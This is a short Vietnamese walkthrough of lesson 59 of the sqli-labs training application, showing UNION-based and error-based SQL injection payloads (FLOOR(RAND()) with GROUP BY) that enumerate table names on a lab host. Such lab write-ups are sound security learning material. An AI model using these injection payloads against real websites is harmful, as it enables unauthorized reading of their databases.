 # Những việc làm được với lesson-59
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-59

![](../images/lesson59/screen_6.png)

- Lần 1: Ta thấy có thông báo lỗi chứng tỏ có thể sử dụng error-base giống như 58
```
192.168.80.225/sqli-labs/Less-59/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

- Lần 2: 
```
192.168.80.225/sqli-labs/Less-59/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson59/screen.png)

Đã đúng cấu trúc nhưng mà vẫn hiển thị như bài 58 vậy ta có cách làm giống thế nhưng khác cấu trúc 

- Lần 3: Tìm tên table 
```
192.168.80.225/sqli-labs/Less-59/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson59/screen_1.png)

TƯơng tự bài 58 với cấu trúc của bài này 

